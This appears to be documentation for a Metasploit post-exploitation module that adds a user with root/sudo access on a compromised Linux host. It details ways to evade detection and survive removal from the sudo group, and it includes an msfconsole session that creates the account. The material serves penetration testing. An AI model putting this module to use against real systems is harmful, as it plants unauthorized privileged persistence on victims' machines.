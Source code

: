 ## Vulnerable Application

This module creates a new user using the standard (or non-standard) means of
creating a new user on the victim OS. This module requires root privileges
in order to run as it needs access to /etc/shadow.

## Tested Versions

 * Debian 11.7
 * Alpine 3.17
 * Fedora 37

## Verification Steps

  1. Start msfconsole
  2. Get a Meterpreter session
  3. `use post/linux/manage/adduser`
  4. `set session <id>`
  5. attempt to log in with account


## Options

### USERNAME

Provide the username that can be used. Linux has a standardization that means
that password have to follow this regex to be able to be used as a username
`^[a-z][a-z0-9_-]{0,31}$`

### PASSWORD

Provides a password for your new user.

### SHELL

Define the shell that is to be used. Defaults to `/bin/sh` but can be changed
to a shell that exists.

### HOME

Speficy the home directory of the new user. An empty value specifies that the
home directory does not exist.

### GROUPS

Specify what groups the new user should be under. Takes one or multiple values
to provide what groups the new user will have.

## Advanced Options

### SudoMethod

Sets the method that the new user will get root access. This can be done
through multiple methods provided below:

 * **GROUP** - Put the new user in the sudo group (is added automatically to
 the groups option)
 * **SUDO_FILE** - Adds user directly to `/etc/sudoers` file in order to
 prevent being removed from sudoers group
 * **NONE** - No sudo methods are provided. New user is a unprivileged user

### UseraddMethod

Set the method used to create new user.

 * **AUTO** - The default option. The module will figure out how to add in the
 user by itself.
 * **MANUAL** - Instead of using a binary on the system, add in the new user
 directly into the FileSystem. This can be preferred if the binary can be
 inconsistent or tracked.
 * **CUSTOM** - Set the custom binary to add in a user. Can be used to pipe
 auto detection towards a preferred binary such as debians dual choice of
 useradd and adduser, or alpines busybox.

### UseraddBinary

Set the binary used to add the user. The two main binaries concerned with are
`useradd` and `adduser`. If you want to overwrite which binary is used or give
an absolute path rather than a relative path, you can override it here.

### MissingGroups

This option decides how to manage groups requested that are missing on the victim.
The possible options are provided as such:

 * **ERROR** - If a group is missing, fail the module with a given error
 * **IGNORE** - If the group doesnt exist, continue to add the user, but dont add
 them to the missing groups
 * **CREATE** - If the group doesnt exist, then make them first then add the user
 to them

### PasswordHashType

Allows the user to decide how their password will be encrypted on the system.
The options are between `DES`, `MD5`, `SHA256`, and `SHA512`. This can be
advantageous to blend in with the main system by using the same password
encryption scheme as the rest of the users. Or if one encryption type isn't
compatible with a given target.

## Scenarios

```
msf > use post/linux/manage/adduser
msf post(linux/manage/adduser) > set session 6 
session => 6
msf post(linux/manage/adduser) > set sudomethod GROUP 
sudomethod => GROUP
msf post(linux/manage/adduser) > set groups wheel docker wireshark
groups => wheel docker wireshark
msf post(linux/manage/adduser) > set username metasploit
username => metasploit
msf post(linux/manage/adduser) > set password abcd1234
password => abcd1234
msf post(linux/manage/adduser) > set shell /bin/bash
shell => /bin/bash
msf post(linux/manage/adduser) > set home /home/metasploit
home => /home/metasploit
msf post(linux/manage/adduser) > set missinggroups CREATE 
missinggroups => CREATE
msf post(linux/manage/adduser) > set verbose true 
verbose => true
msf post(linux/manage/adduser) > run

[-] Groups [docker] do not exist on system
[*] Running on Debian 11.7 (Linux 5.10.0-23-amd64)
[*] Useradd exists. Using that
[*] groupadd docker
[*] 
[+] Added docker group
[*] useradd --password $1$WDX5Sg4N$Hcfx4HSigx/KbvtSzhsXD/ --home-dir /home/metasploit --groups wheel,docker,wireshark,sudo --shell /bin/bash --no-log-init metasploit
[*] 
[*] Post module execution completed
msf post(linux/manage/adduser) > run

[*] Running on Debian 11.7 (Linux 5.10.0-23-amd64)
[*] Useradd exists. Using that
[*] useradd --password $1$EVUDKEc3$Sip80MAZmLv.2vOhzW/4k0 --home-dir /home/metasploit --groups wheel,docker,wireshark,sudo --shell /bin/bash --no-log-init metasploit
[*] useradd: user 'metasploit' already exists
[*] Post module execution completed
```
